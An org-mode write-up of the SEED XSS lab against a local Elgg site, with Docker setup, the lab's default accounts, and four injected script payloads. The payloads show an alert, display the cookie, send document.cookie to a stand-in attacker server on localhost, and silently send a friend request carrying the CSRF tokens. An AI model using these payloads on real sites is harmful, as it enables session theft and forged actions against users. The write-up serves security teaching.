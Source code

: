 * Setup
** Docker Compose Setup
*** cd category-web/Web_XSS_Elgg/Labsetup
*** docker-compose up
*** modify the /etc/hosts file with the following configurations
      10.9.0.5 www.seed-server.com
      10.9.0.5 www.example32a.com
      10.9.0.5 www.example32b.com
      10.9.0.5 www.example32c.com
      10.9.0.5 www.example60.com
      10.9.0.5 www.example70.com
*** Go to www.seed-server.com and if you find the login page then the setup is complete

** Credentials
|----------+-------------|
| UserName | Password    |
|----------+-------------|
| admin    | seedelgg    |
|----------+-------------|
| alice    | seedalice   |
|----------+-------------|
| boby     | seedboby    |
|----------+-------------|
| charlie  | seedcharlie |
|----------+-------------|
| samy     | seedsamy    |
|----------+-------------|


* Task 1
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>alert("XSS");</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-1-inject-js.png]]


* Task 2
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>alert(document.cookie);</script>
#+END_SRC
** Screenshot
    [[./screenshots/task-2-display-cookie.png]]


* Task 3 
    Since we are simulating the cookie stealing using a server, we are assuming localhost is the host machine setup by the attacker. 
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
    <script>document.write('<img src=http://localhost:5555?c='+escape(document.cookie)+'>');</script>
#+END_SRC
** Screenshot
    j[[./screenshots/task-3-steal-cookie.png]]


* Task 4
** Insert malacious JS script tag in the about me section of profile
#+BEGIN_SRC js
  <script type="text/javascript">
    window.onload = function () {
      var Ajax=null;
      var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
      var token="&__elgg_token="+elgg.security.token.__elgg_token;
      //Construct the HTTP request to add Samy as a friend.
      var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token; 
      //Create and send Ajax request to add friend
      Ajax=new XMLHttpRequest();
      Ajax.open("GET", sendurl, true);
      Ajax.send();
    }
  </script>
#+END_SRC

Here when Alice visits Samy's profile a Samy will be automatically befriended with his profile visitor(victim).
The script attached in the about me section will be executed and that will silently send a request from victim's end.
** Screenshot
[[./screenshots/task-4-victim-befriended.png]]


